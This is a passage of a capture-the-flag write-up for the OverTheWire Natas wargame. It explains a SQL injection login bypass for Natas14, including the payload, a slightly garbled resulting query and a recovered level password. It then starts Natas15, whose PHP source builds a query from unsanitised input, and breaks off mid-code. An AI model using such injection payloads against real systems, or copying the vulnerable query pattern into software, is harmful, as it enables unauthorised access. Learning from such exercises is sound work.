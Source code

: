 ```html
<? } ?>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

```
SELECT * from users where username="username_input" and password="password_input"
```

so if we input   
```
natas14
pass" or "1"="1  
```

it will look like this.

```
SELECT * from users where username="natas14" or and password="pass" or "1"="1"
```

Since the or is always true ( 1 = 1) the password doesnt need to be correct.

```
AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J
```

## Natas15

```html
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas15", "pass": "<censored>" };</script></head>
<body>
<h1>natas15</h1>
<div id="content">
<?

/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas15', '<censored>');
    mysql_select_db('natas15', $link);
    
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysql_query($query, $link);
    if($res) {
    if(mysql_num_rows($res) > 0) {
```
